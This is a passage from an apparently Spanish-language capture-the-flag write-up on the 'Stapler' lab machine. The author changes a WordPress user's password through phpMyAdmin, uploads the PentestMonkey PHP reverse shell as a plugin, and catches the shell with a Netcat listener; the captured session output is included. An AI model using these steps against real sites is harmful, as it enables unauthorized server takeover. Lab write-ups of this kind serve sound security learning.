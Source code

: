 
![img]({{ '/assets/images/Stapler/phpmyadmin_03.png' | relative_url }}){: .center-image }*(Editar el usuario)*

---

![img]({{ '/assets/images/Stapler/phpmyadmin_04.png' | relative_url }}){: .center-image }*(Editar el password)*

---

Después de eso se puede acceder a **Wordpress** con el usuario *Vicki* con privilegios de administrador del sitio. ¿Que tiene esto de bueno? Podemos subir un shell reverso!!

Nuevamenta voy a utilizar el script de [PentestMonkey](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz), modificarlo con la IP de la VM atacante y crear una conexión con **Netcat** para recibir el shell reverso.

Una vez que el código está modificado hay que seleccionarlo y pegarlo en la siguiente pantalla:

---

![img]({{ '/assets/images/Stapler/wordpress_04.png' | relative_url }}){: .center-image }*(Editar página de 404 del theme)*

---

Me di la cabeza contra la pantalla cuando me di cuenta que no se pueden modificar los archivos del servidor web sin tocar el file system así que me claudiqué con esa opción. Lo que fue mucho más fácil fue subir el shell reverso como si fuera un Plugin. Dentro de **Wordpress**:

1- Ir a **Plugins**
2- Tocar el botón de **Add New**
3- Tocar el botón de **Upload Plugin**
4- **Browse** y seleccionar el archivo.
5- **install Now**

Solo resta levantar la conexión de **Netcat**:

> **``nc -nlvp 1234``**

ingresar al sitio ``https://10.0.0.127:12380/blogblog/wp-content/uploads/php-reverse-shell.php``

---

```console
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.0.127.
Ncat: Connection from 10.0.0.127:59778.
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
 13:01:52 up 17:05,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```
---
